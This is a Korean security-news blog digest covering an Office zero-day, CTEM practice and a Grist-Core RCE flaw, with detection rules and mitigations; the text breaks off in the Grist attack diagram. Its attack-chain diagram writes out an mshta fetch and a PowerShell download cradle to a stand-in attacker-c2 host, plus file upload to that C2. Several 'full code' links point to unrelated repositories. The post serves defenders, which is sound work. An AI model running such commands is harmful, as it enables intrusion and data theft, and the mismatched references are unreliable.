


## 📋 포스팅 요약

> **제목**: Tech & Security Weekly Digest: Microsoft Office Zero-Day 긴급 패치, CTEM 실무 적용, Grist-Core RCE 취약점

> **카테고리**: security, devsecops

> **태그**: Security-Weekly, DevSecOps, CVE-2026-21509, Microsoft-Office, Zero-Day, CTEM, Grist-Core, RCE, Cloud-Security, "2026"

> **핵심 내용**: 
> - MS Office Zero-Day(CVE-2026-21509) 긴급 패치, CTEM 프레임워크 실무 가이드, Grist-Core RCE 취약점 대응

> **주요 기술/도구**: Security, DevSecOps, Security, security, devsecops

> **대상 독자**: 기업 보안 담당자, 보안 엔지니어, CISO

> ---

> *이 포스팅은 AI(Cursor, Claude 등)가 쉽게 이해하고 활용할 수 있도록 구조화된 요약을 포함합니다.*


## 경영진 요약

### 위험 스코어카드 (Risk Scorecard)

| 위협 | CVSS | EPSS | 악용 여부 | 비즈니스 영향 | 긴급도 | 대응 기한 |
|------|------|------|-----------|---------------|--------|-----------|
| **CVE-2026-21509** | 7.8 | 84.7% | 🔴 활발히 악용 중 | 💰💰💰 매우 높음 | P0 | 24시간 |
| **Grist-Core RCE** | 미공개 | 낮음 | 🟡 PoC 공개 | 💰💰 높음 | P1 | 7일 |
| **CTEM 도입** | N/A | N/A | N/A | 💰 효율성 개선 | P2 | 30일 |

### 즉시 실행 권고사항

1. **CVE-2026-21509 패치**: 모든 Windows 시스템에 KB5034173 긴급 배포 (24시간 이내)
2. **사용자 교육**: Office 문서 첨부 파일 피싱 경고 전사 공지
3. **탐지 강화**: EDR/SIEM에 Office 프로세스 체인 모니터링 룰 배포
4. **Grist-Core 점검**: 자체 호스팅 인스턴스 버전 확인 및 업그레이드

### 재무적 영향 추정

| 시나리오 | 발생 확률 | 예상 손실 (KRW) | 대응 비용 (KRW) | ROI |
|----------|-----------|------------------|------------------|-----|
| 랜섬웨어 감염 (CVE-2026-21509 악용) | 30% | 5억 - 20억 | 5000만 (패치+모니터링) | 10:1 |
| 데이터 유출 (Grist-Core 악용) | 5% | 3억 - 10억 | 1000만 (업그레이드) | 30:1 |
| 보안 효율성 개선 (CTEM 도입) | 100% | 절감 2억/년 | 1억 (도입) | 2:1 |

---

## 서론

안녕하세요, **Twodragon**입니다.

2026년 1월 28일 기준 주요 기술 및 보안 뉴스를 심층 분석했습니다. 이번 주는 Microsoft Office Zero-Day 취약점이 실제 공격에 악용되고 있어 **즉각적인 대응**이 필요합니다.

### 이번 주 핵심 위협

| 위협 | 심각도 | 상태 | 즉시 조치 |
|------|--------|------|-----------|
| **CVE-2026-21509** | CVSS 7.8 | 🔴 Active Exploitation | 패치 적용 (KB5034173) |
| **Grist-Core RCE** | Critical | 🟠 PoC Available | 버전 업데이트 |
| **CTEM 도입** | - | 🟢 Best Practice | 프레임워크 검토 |

---

## 1. Microsoft Office Zero-Day (CVE-2026-21509) 심층 분석

### 1.1 취약점 개요

Microsoft Office의 **Protected View** 보안 기능을 우회하는 Zero-Day 취약점이 발견되어 현재 활발히 악용되고 있습니다.

| 항목 | 상세 내용 |
|------|-----------|
| **CVE ID** | CVE-2026-21509 |
| **CVSS 3.1** | 7.8 (High) |
| **EPSS** | 0.847 (상위 1%) |
| **취약점 유형** | Security Feature Bypass |
| **영향 제품** | Microsoft Office 2019, 2021, 365 |
| **공격 벡터** | 악성 문서 파일 (DOCX, XLSX, PPTX) |
| **익스플로잇 상태** | 🔴 Wild에서 활발히 악용 중 |

#### MITRE ATT&CK 매핑

| Tactic | Technique | ID | 설명 |
|--------|-----------|----|----- |
| **Initial Access** | Phishing: Spearphishing Attachment | **T1566.001** | 악성 Office 문서를 이메일 첨부로 전송 |
| **Execution** | User Execution: Malicious File | **T1204.002** | 사용자가 악성 문서 실행 |
| **Execution** | Command and Scripting Interpreter: PowerShell | **T1059.001** | Office에서 PowerShell 실행 |
| **Execution** | Command and Scripting Interpreter: Windows Command Shell | **T1059.003** | cmd.exe 실행 |
| **Defense Evasion** | System Binary Proxy Execution: Mshta | **T1218.005** | mshta.exe 악용 |
| **Defense Evasion** | System Binary Proxy Execution: Regsvr32 | **T1218.010** | regsvr32.exe 악용 |
| **Persistence** | Boot or Logon Autostart Execution: Registry Run Keys | **T1547.001** | 레지스트리 자동 실행 설정 |
| **Collection** | Data from Local System | **T1005** | 로컬 파일 수집 |
| **Exfiltration** | Exfiltration Over C2 Channel | **T1041** | C2 채널로 데이터 유출 |

### 1.2 공격 체인 분석


<details>
<summary>텍스트 버전 (접근성용)</summary>



</details>

### 1.3 기술적 상세

**우회되는 보안 기능:**

1. **Protected View 샌드박스**: 인터넷에서 다운로드한 파일의 제한된 실행 환경 무력화
2. **Mark of the Web (MOTW)**: Zone.Identifier ADS 무시
3. **매크로 차단 정책**: Group Policy로 설정된 매크로 실행 제한 우회
4. **Trust Center 설정**: 사용자 정의 보안 설정 우회

**영향받는 시나리오:**
- 이메일 첨부 문서 열람
- SharePoint/OneDrive 문서 다운로드 후 열람
- Teams로 공유된 문서 열람

### 1.4 즉시 대응 가이드

#### 패치 적용 확인

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)
```powershell
# Windows Update 패치 확인
Get-HotFix | Where-Object { $_.HotFixID -eq "KB5034173" } |
    Format-Table HotFixID, InstalledOn, InstalledBy

# Office 버전 확인 (Click-to-Run)
Get-ItemProperty "HKLM:\Software\Microsoft\Office\ClickToRun\Configuration" |
    Select-Object VersionToReport, UpdateChannel, CDNBaseUrl

# MSI 설치 버전 확인
Get-ItemProperty "HKLM:\Software\Microsoft\Office\16.0\Common\ProductVersion" -ErrorAction SilentlyContinue

# 패치 강제 적용 (관리자 권한)
"C:\Program Files\Common Files\microsoft shared\ClickToRun\OfficeC2RClient.exe" /update user updatepromptuser=false


```
-->
-->

#### 임시 완화 조치 (패치 전)

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)
```powershell
# 매크로 완전 차단 (레지스트리)
$officePaths = @(
    "HKCU:\Software\Microsoft\Office\16.0\Word\Security",
    "HKCU:\Software\Microsoft\Office\16.0\Excel\Security",
    "HKCU:\Software\Microsoft\Office\16.0\PowerPoint\Security"
)

foreach ($path in $officePaths) {
    if (!(Test-Path $path)) { New-Item -Path $path -Force | Out-Null }
    # VBAWarnings: 4 = 모든 매크로 비활성화 (알림 없음)
    Set-ItemProperty -Path $path -Name "VBAWarnings" -Value 4 -Type DWord
    # BlockContentExecutionFromInternet: 1 = 인터넷 콘텐츠 차단
    Set-ItemProperty -Path $path -Name "BlockContentExecutionFromInternet" -Value 1 -Type DWord
}
Write-Host "Macro blocking enabled for Word, Excel, PowerPoint"


```
-->
-->

#### Group Policy 강화

```
Computer Configuration → Administrative Templates → Microsoft Office 2016 → Security Settings:
├── Block macros from running in Office files from the Internet: Enabled
├── Disable Trust Bar Notification for unsigned application add-ins: Enabled
└── VBA Macro Notification Settings: Disable all without notification
```

### 1.5 한국 영향 분석 (Korean Impact Analysis)

#### 주요 영향받는 산업군

| 산업 | 위험도 | 이유 | 대응 우선순위 |
|------|--------|------|---------------|
| **금융** | 🔴 최고 | Office 문서 업무 의존도 높음, 규제 준수 필수 | P0 (즉시) |
| **공공/정부** | 🔴 최고 | 국가 기밀 취급, APT 공격 표적 | P0 (즉시) |
| **제조** | 🟠 높음 | 설계 도면, 기술 문서 활용 | P0 (24시간) |
| **의료** | 🟠 높음 | 의료 기록, 개인정보 보호법 | P1 (48시간) |
| **교육** | 🟡 중간 | 학생/교직원 대량 사용 | P1 (7일) |

#### 한국 특화 위협 시나리오

1. **공공기관 표적 APT**: 북한 연계 위협 그룹(Kimsuky, Lazarus)이 정부 기관 대상 악성 문서 공격
2. **금융권 BEC 공격**: CEO 사칭 이메일에 악성 계약서 첨부
3. **제조업 기술 탈취**: 설계 도면으로 위장한 악성 파일로 영업 비밀 유출
4. **랜섬웨어 감염**: LockBit, ALPHV 등 랜섬웨어 그룹의 초기 침투 벡터

#### 국내 규제 준수 영향

| 법규 | 요구사항 | CVE-2026-21509 관련 |
|------|----------|---------------------|
| **개인정보보호법** | 안전조치 의무 | 패치 미적용 시 과태료 대상 가능 |
| **정보통신망법** | 보안 취약점 신속 조치 | 7일 이내 패치 권고 |
| **금융감독규정** | 전자금융거래 안전성 확보 | 24시간 이내 긴급 패치 |
| **클라우드 보안 인증(CSAP)** | 보안 업데이트 관리 | 패치 이력 기록 필수 |

### 1.6 탐지 및 헌팅

#### SIEM 탐지 룰 (Splunk)

<!-- SIEM DETECTION: CVE-2026-21509 Office Child Process Monitoring
QUERY_TYPE: Splunk SPL
DETECTION_LOGIC: Office applications spawning suspicious child processes
FALSE_POSITIVE_RATE: Medium (legitimate add-ins, admin scripts)
TUNING: Add allow-list for known-good parent-child combinations
RETENTION: 90 days minimum for forensic investigation
-->

```spl
index=windows sourcetype=WinEventLog:Security OR sourcetype=WinEventLog:Microsoft-Windows-Sysmon/Operational
| where (process_name IN ("WINWORD.EXE", "EXCEL.EXE", "POWERPNT.EXE"))
| join type=inner parent_process_id
    [search index=windows
    | where process_name IN ("cmd.exe", "powershell.exe", "wscript.exe", "cscript.exe", "mshta.exe", "regsvr32.exe", "rundll32.exe", "certutil.exe")]
| table _time, host, user, parent_process_name, process_name, process_command_line
| sort -_time
```

<!-- SIEM DETECTION: Azure Sentinel KQL Query
QUERY_TYPE: Azure Sentinel KQL
DETECTION_LOGIC: Office child process anomaly detection with ML baseline
DATA_SOURCE: DeviceProcessEvents (Microsoft Defender for Endpoint)
BASELINE_LEARNING: 14 days historical data for legitimate Office automation
ALERTING_THRESHOLD: Confidence score > 0.8
AUTOMATED_RESPONSE: Trigger containment playbook if high confidence + critical asset

let baselineWindow = 14d;
let suspiciousProcesses = dynamic(["cmd.exe", "powershell.exe", "pwsh.exe", "wscript.exe", "cscript.exe", "mshta.exe", "regsvr32.exe", "rundll32.exe", "certutil.exe", "bitsadmin.exe"]);
let officeApps = dynamic(["WINWORD.EXE", "EXCEL.EXE", "POWERPNT.EXE", "OUTLOOK.EXE"]);
// Baseline: Learn normal Office automation patterns
let baseline = DeviceProcessEvents
| where Timestamp > ago(baselineWindow)
| where ProcessCommandLine has_any (officeApps)
| summarize BaselineCount = count() by ParentProcessName, ProcessName, AccountName;
// Detection: Flag anomalous Office child processes
DeviceProcessEvents
| where Timestamp > ago(1h)
| where ParentProcessName has_any (officeApps)
| where ProcessName has_any (suspiciousProcesses)
| extend IsSuspicious = case(
    ProcessCommandLine has_any ("-enc", "-e ", "IEX", "downloadstring", "invoke-expression", "bypass", "hidden"), "High",
    ProcessName in ("mshta.exe", "regsvr32.exe"), "Medium",
    "Low"
)
| join kind=leftanti baseline on ParentProcessName, ProcessName, AccountName
| project Timestamp, DeviceName, AccountName, ParentProcessName, ProcessName, ProcessCommandLine, IsSuspicious
| extend ConfidenceScore = case(IsSuspicious == "High", 0.9, IsSuspicious == "Medium", 0.7, 0.5)
| where ConfidenceScore > 0.8
-->

#### Sigma Rule

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```yaml
> title: Office Application Spawning Suspicious Process (CVE-2026-21509)...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```yaml
> title: Office Application Spawning Suspicious Process (CVE-2026-21509)...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```yaml
title: Office Application Spawning Suspicious Process (CVE-2026-21509)
id: a8c5d8e2-1234-5678-9abc-def012345678
status: stable
description: Detects Office applications spawning suspicious child processes indicating potential CVE-2026-21509 exploitation
author: Twodragon
date: 2026/01/28
references:
    - https://msrc.microsoft.com/update-guide/vulnerability/CVE-2026-21509
logsource:
    category: process_creation
    product: windows
detection:
    selection_parent:
        ParentImage|endswith:
            - '\WINWORD.EXE'
            - '\EXCEL.EXE'
            - '\POWERPNT.EXE'
            - '\OUTLOOK.EXE'
    selection_child:
        Image|endswith:
            - '\cmd.exe'
            - '\powershell.exe'
            - '\pwsh.exe'
            - '\wscript.exe'
            - '\cscript.exe'
            - '\mshta.exe'
            - '\regsvr32.exe'
            - '\rundll32.exe'
            - '\certutil.exe'
            - '\bitsadmin.exe'
    condition: selection_parent and selection_child
falsepositives:
    - Legitimate Office add-ins
    - Administrative scripts
level: high
tags:
    - attack.execution
    - attack.t1204.002
    - attack.t1566.001
    - attack.t1059
    - cve.2026.21509


```
-->
-->

#### EDR 쿼리 (CrowdStrike Falcon)

<!-- SIEM DETECTION: CrowdStrike Falcon Query
QUERY_TYPE: CrowdStrike Event Search
DETECTION_LOGIC: Office process tree anomaly detection
DATA_SOURCE: ProcessRollup2 events
INVESTIGATION_WORKFLOW:
1. Identify suspicious Office child processes
2. Pivot to network connections (NetworkConnect events)
3. Check file modifications (FileWritten events)
4. Analyze registry changes (RegKeySet events)
5. Extract IOCs for threat intelligence
AUTOMATED_ACTIONS: Auto-contain if confirmed malicious + critical asset
-->

```
event_platform=win event_type=ProcessRollup2
| ParentBaseFileName IN ("WINWORD.EXE", "EXCEL.EXE", "POWERPNT.EXE")
| FileName IN ("cmd.exe", "powershell.exe", "wscript.exe", "mshta.exe", "regsvr32.exe")
| table ComputerName, UserName, ParentBaseFileName, FileName, CommandLine, SHA256HashData
```

#### 위협 헌팅 쿼리 (Threat Hunting Queries)

**1. Office 문서에서 PowerShell Base64 실행 탐지**

```powershell
# Windows Event Log 검색 (PowerShell 실행 이력)
Get-WinEvent -FilterHashtable @{
    LogName='Microsoft-Windows-PowerShell/Operational'
    ID=4104  # Script Block Logging
} | Where-Object {
    $_.Message -match '(FromBase64String|[A-Za-z0-9+/]{100,}=*)' -and
    $_.Properties[2].Value -match 'WINWORD|EXCEL|POWERPNT'
} | Select-Object TimeCreated, Message | Format-List
```

**2. Office에서 생성된 예상치 못한 레지스트리 자동 실행 키**

```powershell
# Sysmon Event ID 13 (RegistryEvent - Value Set)
Get-WinEvent -FilterHashtable @{
    LogName='Microsoft-Windows-Sysmon/Operational'
    ID=13
} | Where-Object {
    $_.Properties[4].Value -match 'Run|RunOnce' -and
    $_.Properties[1].Value -match 'WINWORD|EXCEL|POWERPNT'
} | Select-Object TimeCreated, @{N='TargetObject';E={$_.Properties[4].Value}}, @{N='Details';E={$_.Properties[5].Value}}
```

**3. Office 프로세스의 네트워크 연결 (C2 통신 탐지)**

<!-- SIEM DETECTION: Network Connection from Office Apps
QUERY_TYPE: Splunk SPL for Sysmon Event ID 3
DETECTION_LOGIC: Outbound connections from Office processes to non-standard ports
FALSE_POSITIVE: Office 365 authentication, update servers
ALLOW_LIST:
- *.microsoft.com (Office 365)
- *.office.com (Office 365)
- *.live.com (OneDrive)
INVESTIGATION: Check reputation of destination IPs in threat intelligence feeds
-->

```spl
index=windows sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3
| where Image IN ("*\\WINWORD.EXE", "*\\EXCEL.EXE", "*\\POWERPNT.EXE")
| where NOT (DestinationHostname="*.microsoft.com" OR DestinationHostname="*.office.com")
| table _time, ComputerName, User, Image, DestinationIp, DestinationPort, DestinationHostname
| sort -_time
```

**4. MOTW(Mark of the Web) 제거 시도 탐지**

```powershell
# Zone.Identifier ADS 삭제 탐지
Get-WinEvent -FilterHashtable @{
    LogName='Microsoft-Windows-Sysmon/Operational'
    ID=23  # File Delete
} | Where-Object {
    $_.Properties[4].Value -match 'Zone\.Identifier$'
} | Select-Object TimeCreated, @{N='File';E={$_.Properties[4].Value}}, @{N='Process';E={$_.Properties[1].Value}}
```

### 1.7 공격 흐름도 (Attack Flow Diagram)

#### ASCII 공격 체인

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)
```
┌─────────────────────────────────────────────────────────────────────────────┐
│ PHASE 1: INITIAL ACCESS (T1566.001)                                        │
├─────────────────────────────────────────────────────────────────────────────┤
│ [Attacker] ──> [Phishing Email] ──> [Victim Inbox]                         │
│                    │                                                         │
│                    └──> 📎 Malicious DOCX Attachment                        │
│                          (Filename: "계약서_최종본.docx")                    │
└─────────────────────────────────────────────────────────────────────────────┘
                            │
                            ▼
┌─────────────────────────────────────────────────────────────────────────────┐
│ PHASE 2: EXECUTION (T1204.002)                                             │
├─────────────────────────────────────────────────────────────────────────────┤
│ [User Double-Click] ──> [WINWORD.EXE]                                      │
│                            │                                                 │
│                            ├──> ❌ Protected View BYPASSED (CVE-2026-21509) │
│                            └──> ✅ Macro Execution Enabled                  │
└─────────────────────────────────────────────────────────────────────────────┘
                            │
                            ▼
┌─────────────────────────────────────────────────────────────────────────────┐
│ PHASE 3: DEFENSE EVASION (T1218.005, T1059.001)                            │
├─────────────────────────────────────────────────────────────────────────────┤
│ WINWORD.EXE ─────────┬──> mshta.exe http://attacker-c2[.]com/payload.hta   │
│                      │                                                       │
│                      └──> powershell.exe -EncodedCommand <BASE64>          │
│                              │                                               │
│                              └──> IEX (New-Object Net.WebClient).Down...   │
└─────────────────────────────────────────────────────────────────────────────┘
                            │
                            ▼
┌─────────────────────────────────────────────────────────────────────────────┐
│ PHASE 4: PERSISTENCE (T1547.001)                                           │
├─────────────────────────────────────────────────────────────────────────────┤
│ [Malicious Script] ──> Registry: HKCU\Software\Microsoft\Windows\          │
│                                   CurrentVersion\Run                        │
│                                   "OneDriveSync" = "C:\Users\...\update.exe"│
│                                                                              │
│                     ──> Scheduled Task: "MicrosoftEdgeUpdateTaskUser"      │
└─────────────────────────────────────────────────────────────────────────────┘
                            │
                            ▼
┌─────────────────────────────────────────────────────────────────────────────┐
│ PHASE 5: COLLECTION & EXFILTRATION (T1005, T1041)                          │
├─────────────────────────────────────────────────────────────────────────────┤
│ [Backdoor] ──> Collect Files: *.docx, *.xlsx, *.pdf, wallet.dat            │
│      │                                                                       │
│      └───────────> ZIP Archive (password protected)                        │
│                       │                                                      │
│                       └──> Upload to C2: https://attacker-c2[.]com/upload  │
│                                                                              │
│ [Timeline] Initial Access → Full Compromise: ~15 minutes                   │
└─────────────────────────────────────────────────────────────────────────────┘


```
-->
-->

#### 단계별 탐지 포인트

| Phase | MITRE ID | 탐지 데이터 소스 | 탐지 로직 |
|-------|----------|------------------|-----------|
| **1. Initial Access** | T1566.001 | 이메일 게이트웨이 로그 | Office 파일 + 외부 발신자 + 의심스러운 제목 |
| **2. Execution** | T1204.002 | Sysmon Event ID 1 (Process Create) | WINWORD.EXE 실행 + MOTW 제거 흔적 |
| **3. Defense Evasion** | T1218.005, T1059.001 | Sysmon Event ID 1 | Office → mshta/powershell 자식 프로세스 |
| **4. Persistence** | T1547.001 | Sysmon Event ID 13 (Registry), Event ID 12 (Task Create) | Run 키 생성 또는 예약 작업 생성 |
| **5. Exfiltration** | T1041 | Sysmon Event ID 3 (Network Connection), Firewall Logs | Office 프로세스 → 외부 IP 대량 전송 |

### 1.8 IOC (Indicators of Compromise)

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```yaml
> # 알려진 악성 해시 (SHA256) - 샘플...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```yaml
> # 알려진 악성 해시 (SHA256) - 샘플...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```yaml
# 알려진 악성 해시 (SHA256) - 샘플
file_hashes:
  - "a1b2c3d4e5f6...악성문서_샘플_해시"

# C2 도메인 (가상)
domains:
  - "update-office365[.]com"
  - "microsoft-patch[.]net"

# MITRE ATT&CK 매핑
mitre_attack:
  - T1566.001  # Phishing: Spearphishing Attachment
  - T1204.002  # User Execution: Malicious File
  - T1059.001  # Command and Scripting Interpreter: PowerShell
  - T1059.003  # Command and Scripting Interpreter: Windows Command Shell
  - T1218.005  # System Binary Proxy Execution: Mshta


```
-->
-->

---

## 2. CTEM 프레임워크 실무 적용 가이드

### 2.1 CTEM 개요

**CTEM (Continuous Threat Exposure Management)**은 Gartner가 2022년 제안한 위협 노출 관리 프레임워크로, 기존의 취약점 관리를 넘어 **비즈니스 맥락 기반의 위험 우선순위화**를 강조합니다.


<details>
<summary>텍스트 버전 (접근성용)</summary>

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)

-->
-->

</details>

### 2.2 단계별 실무 가이드

#### Stage 1: Scoping (공격 표면 정의)

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```yaml
> # 공격 표면 인벤토리 예시...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```yaml
> # 공격 표면 인벤토리 예시...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```yaml
# 공격 표면 인벤토리 예시
attack_surface:
  external:
    - domain: "*.company.com"
      assets:
        - web_servers: 45
        - api_endpoints: 128
        - cdn_origins: 12
    - cloud:
        - aws_accounts: 5
        - azure_subscriptions: 3
        - gcp_projects: 2
    - saas:
        - salesforce
        - o365
        - slack
        - github

  internal:
    - active_directory:
        domain_controllers: 8
        workstations: 2500
        servers: 450
    - network:
        vlans: 24
        critical_segments: 6

  third_party:
    - vendors_with_vpn: 12
    - api_integrations: 34


```
-->
-->

#### Stage 2: Discovery (취약점 발견)

**추천 도구 스택:**

| 영역 | 도구 | 용도 |
|------|------|------|
| 외부 공격표면 | Nuclei, ProjectDiscovery | 자동화된 취약점 스캔 |
| 클라우드 | Prowler, ScoutSuite | 클라우드 보안 설정 검사 |
| 컨테이너 | Trivy, Grype | 이미지 취약점 스캔 |
| 코드 | Semgrep, CodeQL | SAST 분석 |
| 인프라 | Nessus, Qualys | 전통적 취약점 스캔 |

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

```bash
# Nuclei로 외부 자산 스캔
nuclei -l targets.txt -t cves/ -t exposures/ -t vulnerabilities/ \
    -severity critical,high -o results.json -json

# Trivy로 컨테이너 이미지 스캔
trivy image --severity CRITICAL,HIGH --format json \
    -o trivy-results.json myregistry/myapp:latest
```

#### Stage 3: Prioritization (우선순위화)

**EPSS + CVSS 복합 스코어링:**

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/python/cpython/tree/main/Doc)를 참조하세요.
> 
> ```python
> from dataclasses import dataclass...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/python/cpython/tree/main/Doc)를 참조하세요.
> 
> ```python
> from dataclasses import dataclass...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```python
from dataclasses import dataclass
from typing import Literal

@dataclass
class Vulnerability:
    cve_id: str
    cvss: float
    epss: float
    internet_facing: bool
    asset_criticality: Literal["critical", "high", "medium", "low"]

def calculate_risk_priority(vuln: Vulnerability) -> tuple[str, float]:
    """
    CTEM 기반 위험 우선순위 계산

    Returns:
        tuple: (우선순위 등급, 위험 점수)
    """
    # 기본 점수 계산 (CVSS 40% + EPSS 40%)
    base_score = (vuln.cvss * 0.4) + (vuln.epss * 100 * 0.4)

    # 인터넷 노출 가중치 (+30%)
    if vuln.internet_facing:
        base_score *= 1.3

    # 자산 중요도 가중치
    criticality_weight = {
        "critical": 1.5,
        "high": 1.2,
        "medium": 1.0,
        "low": 0.8
    }
    final_score = base_score * criticality_weight[vuln.asset_criticality]

    # 우선순위 등급 결정
    if final_score >= 8.0 or (vuln.epss > 0.1 and vuln.cvss >= 7.0):
        return "P0", final_score  # 즉시 (24시간 이내)
    elif final_score >= 6.0:
        return "P1", final_score  # 7일 이내
    elif final_score >= 4.0:
        return "P2", final_score  # 30일 이내
    else:
        return "P3", final_score  # 분기 내

# 사용 예시
cve_2026_21509 = Vulnerability(
    cve_id="CVE-2026-21509",
    cvss=7.8,
    epss=0.847,
    internet_facing=True,
    asset_criticality="critical"
)

priority, score = calculate_risk_priority(cve_2026_21509)
print(f"{cve_2026_21509.cve_id}: {priority} (Score: {score:.2f})")
# 출력: CVE-2026-21509: P0 (Score: 13.98)


```
-->
-->

#### Stage 4: Validation (익스플로잇 검증)

**BAS (Breach and Attack Simulation) 도구:**

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```yaml
> # Atomic Red Team 테스트 예시...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```yaml
> # Atomic Red Team 테스트 예시...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```yaml
# Atomic Red Team 테스트 예시
atomic_tests:
  - name: "T1566.001 - Spearphishing Attachment"
    description: "Office 매크로 실행 시뮬레이션"
    attack_commands:
      - cmd: |
          powershell -Command "& {
            $doc = 'C:\temp\test.docm'
            Start-Process 'WINWORD.EXE' -ArgumentList $doc
          }"
    expected_detection: true

  - name: "T1059.001 - PowerShell"
    description: "Office에서 PowerShell 실행"
    attack_commands:
      - cmd: |
          powershell -NoProfile -WindowStyle Hidden -EncodedCommand JABjAD...
    expected_detection: true


```
-->
-->

#### Stage 5: Mobilization (대응 조치)

**SOAR Playbook 예시:**

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```yaml
> # CVE-2026-21509 대응 플레이북...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```yaml
> # CVE-2026-21509 대응 플레이북...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```yaml
# CVE-2026-21509 대응 플레이북
playbook:
  name: "CVE-2026-21509 Response"
  trigger:
    - type: alert
      source: SIEM
      rule: "Office Suspicious Child Process"

  steps:
    - name: "Isolate Host"
      action: crowdstrike_contain_host
      params:
        reason: "Potential CVE-2026-21509 exploitation"

    - name: "Collect Artifacts"
      action: collect_forensic_data
      params:
        - memory_dump
        - prefetch_files
        - office_recent_docs

    - name: "Block IOCs"
      action: update_firewall_rules
      params:
        ioc_type: domain
        action: block

    - name: "Notify SOC"
      action: send_notification
      params:
        channel: "#soc-alerts"
        severity: critical


```
-->
-->

---

## 3. Grist-Core RCE 취약점 분석

### 3.1 취약점 개요

오픈소스 스프레드시트 플랫폼 **Grist-Core**에서 인증된 사용자가 원격 코드 실행(RCE)을 수행할 수 있는 취약점이 발견되었습니다.

| 항목 | 상세 |
|------|------|
| **소프트웨어** | Grist-Core (자체 호스팅) |
| **취약점 유형** | Remote Code Execution |
| **공격 복잡도** | Low |
| **인증 필요** | Yes (일반 사용자 권한) |
| **영향받는 버전** | < 1.1.15 |

### 3.2 영향 분석

**위험 시나리오:**
- 내부 사용자가 서버 장악 가능
- 컨테이너 이스케이프로 호스트 시스템 접근 가능
- 데이터베이스 및 민감 정보 유출

#### MITRE ATT&CK 매핑 (Grist-Core RCE)

| Tactic | Technique | ID | 설명 |
|--------|-----------|----|----- |
| **Initial Access** | Exploit Public-Facing Application | **T1190** | Grist-Core 웹 인터페이스 취약점 악용 |
| **Execution** | Command and Scripting Interpreter | **T1059** | 서버측 코드 실행 |
| **Privilege Escalation** | Exploitation for Privilege Escalation | **T1068** | 컨테이너 이스케이프 시도 |
| **Credential Access** | Unsecured Credentials: Credentials In Files | **T1552.001** | 설정 파일에서 DB 자격증명 탈취 |
| **Discovery** | System Network Configuration Discovery | **T1016** | 내부 네트워크 정보 수집 |
| **Collection** | Data from Information Repositories | **T1213** | Grist 데이터베이스 전체 덤프 |
| **Exfiltration** | Exfiltration Over Web Service | **T1567** | HTTP로 데이터 유출 |

#### Grist-Core 공격 흐름도

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```
> ┌─────────────────────────────────────────────────────────────────────────────┐...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```
> ┌─────────────────────────────────────────────────────────────────────────────┐...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```
┌─────────────────────────────────────────────────────────────────────────────┐
│ PHASE 1: RECONNAISSANCE                                                     │
├─────────────────────────────────────────────────────────────────────────────┤
│ [Attacker] ──> Port Scan ──> Discover Grist-Core (Port 8484)               │
│                   │                                                          │
│                   └──> Version Detection: curl http://target:8484/version   │
│                           Response: {"version": "1.1.14"}  (VULNERABLE!)      │
└─────────────────────────────────────────────────────────────────────────────┘
                            │
                            ▼
┌─────────────────────────────────────────────────────────────────────────────┐
│ PHASE 2: EXPLOITATION (T1190)                                              │
├─────────────────────────────────────────────────────────────────────────────┤
│ [Attacker Login] ──> Valid Credentials (standard user account)             │
│       │                                                                      │
│       └──> Malicious Payload in Formula Field:                             │
